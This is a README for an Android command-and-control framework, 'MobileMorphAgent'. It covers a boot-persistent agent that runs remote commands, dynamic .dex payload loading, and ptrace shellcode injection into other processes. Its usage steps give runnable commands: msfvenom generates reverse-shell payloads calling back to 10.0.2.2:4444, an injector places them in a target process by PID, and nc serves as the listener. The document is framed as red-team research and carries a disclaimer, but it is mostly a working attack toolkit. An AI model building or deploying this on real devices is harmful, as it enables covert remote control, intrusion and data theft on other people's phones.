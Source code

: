 # MobileMorphAgent

**MobileMorphAgent** is a modular Command and Control (C2) research framework for Android devices. It enables remote execution of OS-level commands, dynamic code injection via `.dex` payloads, native binary injection via `ptrace`, and Frida-based hooking — making it ideal for red team operations, malware research, or mobile dynamic analysis.

---

## LEGAL DISCLAIMER

> This tool is intended **solely for research and authorized security testing** purposes. Any use on unauthorized systems or devices is strictly prohibited and likely illegal.  
>  
> By using this tool, you agree to take **full responsibility** for your actions. The authors assume **no liability** for misuse.

---

## Features

### 🔧 Android Agent (APK)
- Runs as a background service on boot
- Executes commands from the C2 server via `Runtime.getRuntime().exec()`
- Loads `.dex` payloads dynamically using `DexClassLoader`
- Can be extended to run Frida hooks or native injections

### Native Injector
- `injector.c` uses `ptrace` to attach to other processes
- Shellcode injection via memory mapping (to be expanded)

### Dynamic Payloads
- Modular `.dex` payloads like `Payload.java` compiled outside the APK
- Uploaded and loaded dynamically at runtime

### Flask C2 Server
- REST API for:
  - Registering new agents
  - Sending commands
  - Receiving agent output
  - Updating command queue

---

## Project Structure

```plaintext
MobileMorphAgent/
├── android_agent/           # Android APK (agent)
│   ├── app/
│   │   ├── src/main/
│   │   |   ├── java/
│   │   |   |   ├── com/mobilemorph/agent/
|   |   |   |   |   ├── MainActivity.java
│   │   |   |   |   ├── services/        # CommandService.java
│   │   |   |   |   ├── receiver/        # BootReceiver.java
│   │   |   |   |   └── util/            # ShellExecutor.java, DexLoader.java
│   │   |   |   ├── res/layout           # activity_main.xml (minimal)
|   |   |   └── AndroidManifest.xml
|   |   └── build.gradle
|   ├── gradle/wrapper
|   ├── build.gradle
|   ├── gradlew
|   ├── gradlew.bat
│   └── settings.gradle
|
├── frida_hooks/             # Optional Frida hook scripts
│   └── bypass_ssl.js
│
├── injector/                # Native binary injector (C)
│   ├── injector.c
│   └── Makefile
│
├── morph_server/server/                  # Flask-based C2 backend
│   ├── main.py
│   └── requirements.txt
│
├── payloads/                # Runtime .dex payloads (copied to device)
│   └── test_payload.dex
│
├── payloads_source/         # Source .java files for payloads
│   └── Payload.java
│
├── scripts/                 # Helper build scripts
│   └── build_payload.sh
│
├── LICENSE
├── README.md
└── .gitignore
```

## Getting Started

### Prerequisites

- Android SDK + `d8` (build-tools)
- Python 3.x + Flask
- ADB installed
- Android device or emulator (rooted recommended for native injection)

---

### 1. Build the Android Agent

From `android_agent/`:

```bash
./gradlew assembleDebug
adb install app/build/outputs/apk/debug/app-debug.apk
```

### 1. Build the Android Agent

From `android_agent/`:

```bash
./gradlew assembleDebug
adb install app/build/outputs/apk/debug/app-debug.apk
```

### 2. Run the Flask C2 Server
```bash
cd server/
python3 -m venv venv
source venv/bin/activate
pip install -r requirements.txt
```
Default server URL: `http://localhost:5000`

### 3. Build and Deploy a Payload
```bash
chmod +x scripts/build_payload.sh
./scripts/build_payload.sh

adb push payloads/test_payload.dex /sdcard/MobileMorphAgent/payloads
```

### 4. Test Command Execution/Dex Injection

Via curl or Postman:

```bash
curl -X POST http://localhost:5000/set_command -H "Content-Type: application/json" -d '{"device_id": "android123", "command": "dexload"}'
```
The agent will receive the command and invoke:
```java
DexLoader.loadandExecute(context, "/sdcard/MobileMorphAgent/payloads/test_payload.dex");
```

---

## Native Injection Usage (`injector.c`)

`injector.c` enables low-level shellcode injection into running processes using `ptrace`. It supports both `x86_64` and `arm64` architectures.

### Build the Injector

```bash
# x86_64 (Linux)
gcc injector/injector.c -o injector/injector

# ARM64 (Android target using NDK or Termux)
aarch64-linux-android-gcc injector/injector.c -o injector/injector
```

### Generate Shellcode Payload
Use `msfvenom` to create a reverse shell payload:

```bash
# x86_64 (Linux)
msfvenom -p linux/x64/shell_reverse_tcp LHOST=10.0.2.2 LPORT=4444 -f raw -o reverse_shell.bin

# ARM64 (Android target using NDK or Termux)
msfvenom -p linux/aarch64/shell_reverse_tcp LHOST=10.0.2.2 LPORT=4444 -f raw -o reverse_shell.bin
```

### Inject the Shellcode
```bash
# Replace <PID> with the target process ID (e.g., from `ps`)
./injector/injector <PID> reverse_shell.bin
```
- This injector will:
  1. Attach to the target process
  2. Use remote `mmap()` to allocate memory
  3. Write the shellcode
  4. Redirect the PC to execute the payload

### Start the Listener
Set up your reverse shell listener before injection:
```bash
# x86_64 (Linux)
nc -lnvp 4444
```
Once the shellcode executes, it will connect back to your terminal.

...

## 👥 Credits

Created by **[Your Name or Team]** — 2025

Inspired by:
- [Drozer](https://github.com/FSecureLABS/drozer)
- [Frida](https://frida.re)
- [Metasploit Android payloads](https://github.com/rapid7/metasploit-framework)

---

## 🛡️ License

This project is licensed under the [MIT License](LICENSE).